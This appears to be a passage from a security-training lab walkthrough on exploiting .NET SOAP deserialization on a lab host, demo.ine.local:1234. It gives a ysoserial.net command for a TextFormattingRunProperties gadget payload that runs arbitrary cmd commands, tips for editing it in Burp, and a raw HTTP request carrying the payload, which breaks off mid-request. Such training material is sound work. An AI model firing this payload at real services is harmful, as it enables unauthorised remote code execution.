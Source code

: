 The service on port 1234 reacts to a simple SOAP message.

> [Note] That it is a valid service endpoint, since when requesting an incorrect path the error mentions **Requested Service not found**.

Task 2. Execute code on remote machine

Lets use ysoserial.net to generate a payload in SoapFormat, in an attempt to identify if the remote service is vulnerable.
```bash
Note that you might need to remove \<SOAP:Body> tags from the resulting payload before testing.
```

Also note that you need a Windows OS on which you will run the ysoserial.net binary with the below command:
```bash
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c [command]" -o raw
```

The .NET serialization protocol in this case does not verify the length of the command string, it will thus be possible to interfere with it after generating the payload. The payload is then copied to Burp with the following changes:

- As said before, Soap Body tags should be removed

- In order to have a valid soap message, a dummy SOAPAction header is required. This is related to SOAP and not related to this specific lab

- The content type should be text/xml like in every SOAP request

- If you are receiving an error stating **Requested service was not found**, you might also need to clear some whitespaces / newlines

Blind Code execution can be confirmed, for example, using ping.

For that, we need the IP address of the attacker machine:

Command:
```bash
ip addr
```



Request:
```bash
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                   xmlns:xsd="http://www.w3.org/2001/XMLSchema"
                   xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
                   xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
                   xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0"
                   SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <a1:TextFormattingRunProperties id="ref-1"
                                  xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
    <ForegroundBrush id="ref-3">
      &lt;ResourceDictionary
```